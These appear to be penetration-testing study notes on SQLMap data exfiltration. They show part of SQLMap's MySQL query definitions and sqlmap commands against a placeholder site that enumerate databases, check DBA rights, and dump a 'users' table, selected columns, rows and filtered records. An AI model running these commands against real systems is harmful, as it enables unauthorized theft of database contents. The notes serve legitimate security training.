 ## SQLMap Data Exfiltration
SQLMap has a predefined set of queries for all supported DBMSs

Example of MySQL xml:
<?xml version="1.0" encoding="UTF-8"?>

<root>
    <dbms value="MySQL">
        <!-- http://dba.fyicenter.com/faq/mysql/Difference-between-CHAR-and-NCHAR.html -->
        <cast query="CAST(%s AS NCHAR)"/>
        <length query="CHAR_LENGTH(%s)"/>
        <isnull query="IFNULL(%s,' ')"/>
...SNIP...
        <banner query="VERSION()"/>
        <current_user query="CURRENT_USER()"/>
        <current_db query="DATABASE()"/>
        <hostname query="@@HOSTNAME"/>
        <table_comment query="SELECT table_comment FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='%s' AND table_name='%s'"/>
        <column_comment query="SELECT column_comment FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='%s' AND table_name='%s' AND column_name='%s'"/>
        <is_dba query="(SELECT super_priv FROM mysql.user WHERE user='%s' LIMIT 0,1)='Y'"/>
        <check_udf query="(SELECT name FROM mysql.func WHERE name='%s' LIMIT 0,1)='%s'"/>
        <users>
            <inband query="SELECT grantee FROM INFORMATION_SCHEMA.USER_PRIVILEGES" query2="SELECT user FROM mysql.user" query3="SELECT username FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
            <blind query="SELECT DISTINCT(grantee) FROM INFORMATION_SCHEMA.USER_PRIVILEGES LIMIT %d,1" query2="SELECT DISTINCT(user) FROM mysql.user LIMIT %d,1" query3="SELECT DISTINCT(username) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS LIMIT %d,1" count="SELECT COUNT(DISTINCT(grantee)) FROM INFORMATION_SCHEMA.USER_PRIVILEGES" count2="SELECT COUNT(DISTINCT(user)) FROM mysql.user" count3="SELECT COUNT(DISTINCT(username)) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
        </users>

In case of a MySQL DBMS:
--banner, VERSION() query will be used
--current-user, CURRENT_USER() query will be used
--users-inband or --users-blind

## Basic DB Data Enumeration
- Database version banner (switch --banner)
- Current user name (switch --current-user)
- Current database name (switch --current-db)
- Checking if the curent user has DBA (administrator) rights (switch --is-dba)

```shell-session
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

## Table Enumeration
```shell-session
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

## Dump Table
```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```
- '-T' is for table name
- '--dump-format' to specify HTML or SQLite

## Table/Row Enumeration
```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```
- '-C' are the column names
```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```
- '--start' and '--stop' print certain rows

## Conditional Enumeration
```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```
- WHERE condition

## Full DB Enumeration
- '--dump'
- '--dump-all'
- '--exclude-sysdbs'
